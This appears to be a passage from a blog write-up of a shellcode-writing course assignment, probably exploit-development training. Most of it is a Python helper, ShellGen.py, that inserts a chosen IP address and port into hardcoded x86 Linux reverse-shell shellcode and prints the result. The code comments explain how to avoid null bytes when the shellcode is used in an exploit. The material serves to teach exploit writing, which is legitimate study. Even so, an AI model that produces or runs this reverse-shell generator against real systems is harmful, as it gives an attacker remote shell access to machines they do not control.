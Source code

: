 A couple of null bytes are there, but this is due to the ip address used (127.0.0.1), in a real case scenario another IP should be used.
Let's move to the final part of the assignment: the port should be easily configurable. For doing this a Python helper script was implemented.

```python
#!/bin/python

# Author  : Alessio Parzian
# Filename: ShellGen.py
# Usage   : python ShellGen.py $ipaddr $port_number

# This script is an helper to easily configure the ip address and port of the rev shell

# Note that problems might arise due to the presence of 0x00 in the ip addr inserted
# In this exercise is not an issue but when using it as part of an exploit it could be the case
# I prefer simply to work at asm level to avoid badchars
# EX: in case of 127.0.0.1 use the following instead of the common push
# mov byte [esp] = 0x7f
# mov byte [esp+3] 0x01

import sys

try:
	ipaddr = ''
	for ip_byte in sys.argv[1].split("."):
		ipaddr+="\\x"+"{:02x}".format(int(ip_byte))

	port = "{:04x}".format(int(sys.argv[2]))
	port_hex = port
	port = "\\x"+port[:2]+"\\x"+port[2:]

	shellcode = ("\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\x66\\xb8\\x67\\x01"
				 "\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc6\\x89\\xf3\\x31\\xc9\\xb1\\x03\\x31\\xc0"
				 "\\xb0\\x3f\\xfe\\xc9\\xcd\\x80\\x75\\xf6\\x66\\x05\\x6a\\x01\\x89\\xf3\\x68" +
				 ipaddr + "\\x66\\x68" + port +"\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\x83\\xc2"
				 "\\x10\\xcd\\x80\\x31\\xc0\\x50\\xb0\\x0b\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f"
				 "\\x62\\x69\\x89\\xe3\\x31\\xff\\x57\\x89\\xe2\\x53\\x89\\xe1\\xcd\\x80");
	
	print "[*] Shellcode will connect to addr {} at port {}".format(sys.argv[1], sys.argv[2])
	print "[*] Size: {0} bytes".format(shellcode.count("x"))
	print
	print "[*] Spawing..."
	print
	print shellcode
	
except Exception, e:
	print str(e)
	print 'Please specify port number as parameter in decimal format.\n'
	print 'Usage:'
	print '	python ShellGen.py $ipaddr $port_number'
	exit(-1)
```
